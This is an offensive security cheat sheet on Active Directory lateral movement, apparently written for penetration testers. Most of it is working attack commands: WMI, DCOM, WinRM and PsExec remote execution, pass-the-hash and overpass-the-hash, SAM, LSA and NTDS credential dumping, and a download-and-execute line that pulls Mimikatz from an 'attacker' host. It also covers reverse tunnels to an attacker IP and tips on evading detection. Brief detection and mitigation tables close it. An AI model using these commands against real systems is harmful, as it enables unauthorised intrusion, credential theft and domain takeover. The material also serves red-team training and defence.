

# Active Directory Lateral Movement

> **Lateral movement is the process of using compromised credentials or sessions to access additional machines across the network, progressively moving toward high-value targets like Domain Controllers.**

---

## 🧠 What Is It?

You've compromised one machine. But you're not done — your goal is Domain Admin. Between you and that goal sits a series of machines, each potentially holding credentials for the next hop.

Think of it like a game of stepping stones across a river. Each stone (machine) gets you closer to the other side (DA). You use the credentials and sessions found on each machine to access the next one.

**Lateral movement strategy:**
1. Find credentials on current host (LSASS, vaults, config files)
2. Identify reachable machines where those credentials have access
3. Move to that machine
4. Repeat until you reach DA or a machine with DA credentials

---

## 🏗️ How It Works

Lateral movement exploits remote execution mechanisms built into Windows:

| Protocol | Port | Requirement | Noise Level |
|---|---|---|---|
| SMB/PsExec | 445 | Admin share access, no signing | High (creates service) |
| WMI | 135, dynamic | Admin access | Medium |
| WinRM/PSRemoting | 5985/5986 | WinRM enabled, user in group | Medium |
| DCOM | 135, dynamic | Admin access (some lower) | Low-Medium |
| RDP | 3389 | RDP enabled, user in RDP group | High (interactive) |
| SSH | 22 | SSH installed, credentials | Low |
| AT/Scheduled Tasks | 445 | Admin access | Medium |

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Authentication Context for Lateral Movement

| Method | Auth Type | Ticket/Token | Leaves Creds? |
|---|---|---|---|
| psexec.py | NTLM/Kerberos | NT hash or password | Yes — in LSASS |
| wmiexec.py | NTLM/Kerberos | NT hash or password | No — not interactive |
| smbexec.py | NTLM | NT hash or password | No |
| evil-winrm | NTLM/Kerberos | NT hash, cert, or password | Minimal |
| Invoke-Command | Kerberos | Password or ticket | Yes — in LSASS |
| PTH Mimikatz | NTLM | NT hash | New process token |
| PTT | Kerberos | Ticket (.kirbi / ccache) | In memory |

**Choosing the right technique:**
- **wmiexec.py / smbexec.py**: Preferred for stealth — doesn't leave creds in LSASS
- **psexec.py**: Creates a service — noisy but reliable
- **evil-winrm**: Best for interactive sessions
- **PTH**: When you have NT hash, no password

---

## 💥 Exploitation Step-by-Step

### 1. WMI Lateral Movement

**Windows Management Instrumentation** — built-in Windows management framework. No new service created, uses existing DCOM infrastructure.

```powershell
# Windows — wmic command
wmic /node:10.0.0.10 /user:CORP\Administrator /password:Password123! \
  process call create "cmd.exe /c whoami > C:\Windows\Temp\out.txt"

# Read output
wmic /node:10.0.0.10 /user:CORP\Administrator /password:Password123! \
  /namespace:\\root\cimv2 path Win32_Process get Name

# PowerShell Invoke-WmiMethod
$cred = Get-Credential
Invoke-WmiMethod -Class Win32_Process -Name Create \
  -ArgumentList "powershell.exe -enc ENCODEDCMD" \
  -ComputerName 10.0.0.10 \
  -Credential $cred

# PowerShell CimSession (WS-MAN protocol, modern)
$session = New-CimSession -ComputerName 10.0.0.10 -Credential $cred
Invoke-CimMethod -CimSession $session -ClassName Win32_Process \
  -MethodName Create -Arguments @{CommandLine = "cmd.exe /c whoami > C:\temp\out.txt"}

# Read result
$result = Get-CimInstance -CimSession $session -ClassName CIM_DataFile `
  -Filter "Name = 'C:\\\\temp\\\\out.txt'"
```

```bash
# Impacket wmiexec.py (from Linux) — semi-interactive shell
wmiexec.py corp.local/Administrator:Password123!@10.0.0.10

# With NT hash
wmiexec.py -hashes :NTHASH corp.local/Administrator@10.0.0.10

# Execute single command
wmiexec.py corp.local/Administrator:pass@10.0.0.10 "whoami"

# Kerberos (with ccache)
export KRB5CCNAME=/tmp/admin.ccache
wmiexec.py -k -no-pass corp.local/Administrator@DC.corp.local
```

**wmiexec.py — how it works:**
```
1. Creates a hidden temp share (ADMIN$)
2. Uploads command output to ADMIN$\<random>.tmp
3. Reads output via WMI
4. Deletes temp file
→ Creates NO new service, leaves minimal traces
```

---

### 2. DCOM Lateral Movement

**Distributed COM** allows invoking COM objects on remote machines. Several DCOM objects support `Execute` or equivalent methods.

```powershell
# MMC20.Application — most common DCOM method
$obj = [System.Activator]::CreateInstance(
    [System.Type]::GetTypeFromProgID("MMC20.Application", "10.0.0.10")
)
$obj.Document.ActiveView.ExecuteShellCommand(
    "cmd.exe", $null, "/c powershell -enc ENCODEDCMD", "7"
)
# "7" = WindowStyle Hidden

# ShellWindows
$obj = [System.Activator]::CreateInstance(
    [System.Type]::GetTypeFromProgID("Shell.Application", "10.0.0.10")
)
$item = $obj.Item()
$item.Document.Application.ShellExecute(
    "cmd.exe", "/c powershell -enc ENCODEDCMD",
    "C:\Windows\System32", $null, 0
)

# ShellBrowserWindow (Win10)
$obj = [System.Activator]::CreateInstance(
    [System.Type]::GetTypeFromProgID("Shell.Application", "10.0.0.10")
)
$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\System32", $null, 0)

# Excel.Application (if Office installed)
$excel = [System.Activator]::CreateInstance(
    [System.Type]::GetTypeFromProgID("Excel.Application", "10.0.0.10")
)
$excel.DisplayAlerts = $false
$excel.DDEInitiate("cmd", "/c calc.exe")
```

**Required DCOM port:**
```
135/TCP  → DCOM endpoint mapper (initial connection)
Dynamic high ports (49152-65535) → actual DCOM traffic
```

---

### 3. WinRM / PowerShell Remoting

**WinRM** (Windows Remote Management) enables PowerShell remoting. Uses HTTP(S).

**Ports:** 5985 (HTTP), 5986 (HTTPS)

**Requirements:**
- WinRM service running
- Firewall allows 5985/5986
- User is in `Remote Management Users` group, local Administrators, or explicit rights granted

```bash
# evil-winrm — best interactive WinRM client
# Install: gem install evil-winrm
evil-winrm -i 10.0.0.10 -u Administrator -p 'Password123!'

# Pass-the-Hash
evil-winrm -i 10.0.0.10 -u Administrator -H NTHASH

# With SSL
evil-winrm -i 10.0.0.10 -u Administrator -p pass -S

# With Kerberos ticket
evil-winrm -i DC.corp.local -u Administrator -r CORP.LOCAL

# evil-winrm features
# Upload file: upload localfile.ps1 C:\Windows\Temp\
# Download: download C:\Windows\Temp\creds.txt
# Load PowerShell module: Bypass-4MSI, then load-module
# Invoke-Binary: run .NET assemblies in memory
```

```powershell
# Native PowerShell remoting
$cred = New-Object System.Management.Automation.PSCredential(
    "CORP\Administrator",
    (ConvertTo-SecureString "Password123!" -AsPlainText -Force)
)

# Interactive session
Enter-PSSession -ComputerName 10.0.0.10 -Credential $cred

# Run command remotely
Invoke-Command -ComputerName 10.0.0.10 -Credential $cred \
  -ScriptBlock {whoami; hostname; ipconfig}

# Run script remotely
Invoke-Command -ComputerName 10.0.0.10 -Credential $cred \
  -FilePath C:\temp\payload.ps1

# Multiple targets
Invoke-Command -ComputerName 10.0.0.10,10.0.0.11,10.0.0.12 \
  -Credential $cred -ScriptBlock {whoami}

# Persistent session
$session = New-PSSession -ComputerName 10.0.0.10 -Credential $cred
Invoke-Command -Session $session -ScriptBlock {$result = "hello"}
Invoke-Command -Session $session -ScriptBlock {$result}  # variables persist!
Remove-PSSession $session
```

---

### 4. PsExec / Service-based Execution

**How PsExec works:**
1. Authenticates to target via SMB (`ADMIN$` or `C$`)
2. Copies a service binary (PSEXESVC.exe) to `C:\Windows\`
3. Creates and starts a service via Windows Service Control Manager
4. Interactive shell via named pipe
5. Cleans up service and binary on exit

**Very noisy!** Creates: Event 7045 (service install), 4624 (logon), 4697 (service creation).

```bash
# Impacket psexec
psexec.py corp.local/Administrator:pass@10.0.0.10
psexec.py -hashes :NTHASH corp.local/Administrator@10.0.0.10

# Impacket smbexec (no binary dropped — uses cmd.exe only)
smbexec.py corp.local/Administrator:pass@10.0.0.10
smbexec.py -hashes :NTHASH corp.local/Administrator@10.0.0.10

# Impacket atexec (scheduled task)
atexec.py corp.local/Administrator:pass@10.0.0.10 whoami

# Sysinternals PsExec
PsExec.exe \\10.0.0.10 -u CORP\Administrator -p Password123! cmd.exe
PsExec.exe \\10.0.0.10 -u CORP\Administrator -p Password123! \
  -d -h "powershell -enc ENCODEDCMD"
```

---

### 5. Overpass-the-Hash

**Theory:** Convert an NT hash into a Kerberos TGT. Now you get a Kerberos-authenticated session instead of NTLM — better for environments with NTLM restriction.

```powershell
# Mimikatz - create new process authenticated with NT hash via Kerberos
sekurlsa::pth /user:Administrator /domain:corp.local \
  /ntlm:32ed87bdb5fdc5e9cba88547376818d4 /run:cmd.exe

# The new cmd.exe has a token for Administrator
# Any Kerberos request uses that hash to request TGT
# Now klist shows TGT for Administrator
```

```powershell
# Rubeus overpass-the-hash → get TGT
Rubeus.exe asktgt /domain:corp.local /user:Administrator \
  /rc4:NTHASH /ptt

# Then use with Kerberos-aware tools
# (klist will show ticket, dir \\DC\C$ will use Kerberos)

# With AES key (more stealthy, matches modern DC expectations)
Rubeus.exe asktgt /domain:corp.local /user:Administrator \
  /aes256:AESKEY /ptt
```

---

### 6. CrackMapExec — Comprehensive Lateral Movement

```bash
# Test credentials across subnet
crackmapexec smb 10.0.0.0/24 -u Administrator -p 'Password123!'
crackmapexec smb 10.0.0.0/24 -u Administrator -H NTHASH

# Execute commands
crackmapexec smb 10.0.0.10 -u admin -p pass -x "whoami /all"
crackmapexec smb 10.0.0.10 -u admin -p pass -X "Get-Process"  # PowerShell

# Download and execute
crackmapexec smb 10.0.0.10 -u admin -p pass -X \
  "IEX(New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"

# Dump SAM hashes (requires local admin)
crackmapexec smb 10.0.0.10 -u admin -p pass --sam
crackmapexec smb 10.0.0.10 -u admin -p pass --lsa
crackmapexec smb 10.0.0.10 -u admin -p pass --ntds  # Domain controller only

# Modules
crackmapexec smb 10.0.0.10 -u admin -p pass -M lsassy
crackmapexec smb 10.0.0.10 -u admin -p pass -M mimikatz
crackmapexec smb 10.0.0.10 -u admin -p pass -M web_delivery
crackmapexec smb 10.0.0.10 -u admin -p pass -M empire_exec \
  -o LISTENER=http
crackmapexec smb 10.0.0.10 -u admin -p pass -M rdp -o ACTION=enable

# WinRM
crackmapexec winrm 10.0.0.10 -u admin -p pass -x "whoami"
crackmapexec winrm 10.0.0.0/24 -u admin -p pass -x "hostname"

# Kerberos auth
export KRB5CCNAME=/tmp/admin.ccache
crackmapexec smb DC.corp.local -k --use-kcache -x "whoami"

# Log results
crackmapexec smb 10.0.0.0/24 -u admin -p pass -x "whoami" \
  --log /tmp/cme_results.txt

# List sessions on target
crackmapexec smb 10.0.0.10 -u admin -p pass --sessions --loggedon-users

# Genrelay list (find targets with no SMB signing)
crackmapexec smb 10.0.0.0/24 --gen-relay-list relay_targets.txt
```

---

### 7. BloodHound Attack Path Analysis

After running SharpHound/bloodhound-python, use BloodHound to plan hops:

**Key edges for lateral movement:**
| Edge | Meaning | Exploitation |
|---|---|---|
| `AdminTo` | User/Group is local admin on computer | PsExec, WMI, WinRM |
| `HasSession` | User has active session on computer | Steal their creds/tickets from LSASS |
| `CanRDPTo` | User can RDP to computer | RDP, xfreerdp |
| `ExecuteDCOM` | User can use DCOM on computer | DCOM execution |
| `CanPSRemote` | User can WinRM to computer | evil-winrm |
| `AllowedToDelegate` | Constrained delegation | S4U attacks |
| `AllowedToAct` | RBCD configured | S4U2proxy |

**Planning hops:**
```cypher
-- Shortest path from owned user to DA
MATCH p=shortestPath(
  (u:User {owned:true})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})
)
RETURN p

-- Find computers where owned users have admin AND DA has sessions
MATCH (da:User {admincount:true})-[:HasSession]->(c:Computer)
MATCH (owned:User {owned:true})-[:AdminTo]->(c)
RETURN da.name, c.name, owned.name
```

**Interpreting a path:**
```
jsmith --AdminTo--> WORKSTATION01 --HasSession--> DA_User
                                                      │
                                                   AdminTo
                                                      │
                                               DOMAIN CONTROLLER

Translation:
1. You can admin WORKSTATION01 (PsExec/WMI in)
2. DA_User has a session on WORKSTATION01
3. Dump DA_User's creds from LSASS
4. Use DA creds on DC
```

---

### 8. Pivoting / Network Tunneling

When target networks are segmented, you need tunnels.

#### SSH Tunneling

```bash
# Local port forward: access target's internal service via SSH jump host
ssh -L 8080:10.0.0.50:80 user@jump_host.corp.local
# Now: curl http://127.0.0.1:8080 → reaches 10.0.0.50:80

# Remote port forward: expose your local service to target network
ssh -R 0.0.0.0:4444:127.0.0.1:4444 user@jump_host.corp.local

# Dynamic (SOCKS proxy): route all traffic through SSH
ssh -D 1080 user@jump_host.corp.local
# Configure proxychains: socks5 127.0.0.1 1080
proxychains nmap -sT -Pn 10.0.0.0/24

# Multi-hop: tunnel through 2 hosts
ssh -J user@jump1.corp.local user@jump2.corp.local
```

#### Chisel (TCP/UDP tunneling over HTTP)

```bash
# On attacker
./chisel server -p 8080 --reverse --socks5

# On target (Windows)
.\chisel.exe client attacker_ip:8080 R:socks
# or specific port forward
.\chisel.exe client attacker_ip:8080 R:4444:127.0.0.1:4444

# Configure proxychains on attacker
echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
proxychains crackmapexec smb 10.0.0.0/24 -u admin -p pass
```

#### Ligolo-ng (Virtual TUN interface — no proxychains needed!)

```bash
# ATTACKER: Start proxy
./proxy -selfcert -laddr 0.0.0.0:11601

# TARGET: Connect agent
.\agent.exe -connect attacker_ip:11601 -ignore-cert

# ATTACKER: In Ligolo-ng console
ligolo-ng >> session          # list sessions
ligolo-ng >> 1                # select session
ligolo-ng >> ifconfig         # see target interfaces
ligolo-ng >> start            # start tunnel

# Add route to target subnet (no proxychains needed!)
sudo ip route add 10.0.0.0/24 dev ligolo

# Now directly use tools as if on target network:
crackmapexec smb 10.0.0.0/24 -u admin -p pass
nmap -sV 10.0.0.50
secretsdump.py corp.local/admin:pass@10.0.0.1
```

#### Proxychains Configuration

```bash
# /etc/proxychains.conf (or proxychains4.conf)
[ProxyList]
socks5 127.0.0.1 1080    # Chisel/SSH SOCKS

# Use with any tool
proxychains nmap -sT -Pn -p 445,5985 10.0.0.0/24
proxychains crackmapexec smb 10.0.0.50 -u admin -p pass
proxychains evil-winrm -i 10.0.0.50 -u admin -p pass
proxychains secretsdump.py corp.local/admin:pass@10.0.0.50
```

---

### 9. Abusing Domain Trust for Lateral Movement

```powershell
# Enumerate trusts
Get-DomainTrust
# Output shows:
# SourceName     : corp.local
# TargetName     : subsidiary.local
# TrustDirection : Bidirectional
# TrustType      : WINDOWS_ACTIVE_DIRECTORY

# Get users in trusted domain that have access to our domain
Get-DomainForeignGroupMember -Domain subsidiary.local

# If you have creds in corp.local and subsidiary.local trusts corp.local:
# Users from corp.local can authenticate to subsidiary.local resources

# If SID filtering disabled (check):
Get-DomainTrust | Select-Object TargetName, SIDFilteringQuarantined, SIDFilteringForestAware

# Cross-domain lateral movement with Impacket
# Using corp.local DA creds against subsidiary.local
secretsdump.py corp.local/DA_user:pass@DC.subsidiary.local -just-dc

# Or if you have the inter-realm TGT
Rubeus.exe asktgs /service:krbtgt/subsidiary.local /dc:DC.subsidiary.local /ticket:corptgt.kirbi /ptt
```

---

### 10. Service Account Targeting

Service accounts are often:
- High privilege (backup, SQL, exchange)
- Running on many machines
- Have weak passwords set years ago
- Not protected by Credential Guard

```powershell
# Find service accounts
Get-DomainUser -SPN | Select samaccountname,serviceprincipalname,memberof,lastlogon

# Find where service accounts are local admin
Find-DomainUserLocation -UserIdentity svc_backup

# Get computers where svc_sql service runs
Get-DomainComputer | Where-Object {
    (Get-WmiObject Win32_Service -ComputerName $_.dnshostname -Credential $cred |
    Where-Object {$_.StartName -like "*svc_sql*"})
}
```

---

## 🛠️ Tools

| Tool | Install | Primary Use |
|---|---|---|
| **evil-winrm** | `gem install evil-winrm` | WinRM interactive shells |
| **wmiexec.py** | Impacket | Stealthy WMI execution |
| **psexec.py** | Impacket | Service-based execution |
| **smbexec.py** | Impacket | SMB command execution |
| **CrackMapExec** | pip3 | Mass lateral movement |
| **Chisel** | GitHub releases | HTTP-based tunneling |
| **Ligolo-ng** | GitHub releases | TUN-based pivoting |
| **Mimikatz** | GitHub | PTH, PTT, overpass |
| **Rubeus** | GitHub | Kerberos ticket ops |
| **proxychains** | `apt install proxychains4` | Proxy routing |

---

## 🔍 Detection

| Technique | Event ID | Indicators |
|---|---|---|
| PsExec | 7045, 4697 | PSEXESVC service creation |
| WMI | 4624, 4648, WMI Activity/52 | WMI process creation from remote |
| WinRM | 4624, 4625, 169 | Logon type 3, WinRM service |
| DCOM | 4624, 4648 | DCOM activation from remote IP |
| Pass-the-Hash | 4624 | NTLM logon type 3, no prior Kerberos |
| Pass-the-Ticket | 4769 | TGS requests with anomalous source |
| Chisel/Tunneling | Network | HTTP/HTTPS to unusual hosts, long TCP sessions |

---

## 🛡️ Mitigation

| Vector | Mitigation |
|---|---|
| WMI lateral movement | Restrict WMI via firewall rules, log WMI activity |
| PsExec | Disable ADMIN$ share, alert on new service installs |
| WinRM | Disable if not needed; restrict via firewall |
| Pass-the-Hash | LAPS, Credential Guard, disable NTLMv1 |
| Pass-the-Ticket | Short ticket lifetimes, Protected Users group |
| Tunneling | Deep packet inspection, anomaly detection |
| Service accounts | LAPS equivalent, gMSA, separate per-service accounts |

---

## 📚 References

- [evil-winrm GitHub](https://github.com/Hackplayers/evil-winrm)
- [Impacket Suite](https://github.com/fortra/impacket)
- [Ligolo-ng GitHub](https://github.com/nicocha30/ligolo-ng)
- [Chisel GitHub](https://github.com/jpillora/chisel)
- [DCOM Lateral Movement - CyberReason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
- [BloodHound Edge Descriptions](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html)
- [The Hacker Recipes - Lateral Movement](https://www.thehacker.recipes/ad/movement/lateral-movement)
- [PayloadsAllTheThings - Pivoting](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)
